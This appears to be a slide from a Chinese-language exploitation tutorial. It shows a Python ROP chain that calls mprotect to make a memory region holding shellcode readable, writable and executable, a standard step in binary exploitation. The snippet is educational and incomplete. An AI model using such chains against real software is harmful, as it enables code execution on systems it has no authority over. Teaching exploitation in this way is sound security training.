

漏洞利用
mprotect (可写权限.data .bss)
 rop += p64(pop_rdi)
 rop += p64(shellcode_location)
 rop += p64(pop_rsi)
 rop += p64(0x1000)
 rop += p64(pop_rdx)
 rop += p64(7)
 rop += p64(plt_mprotect)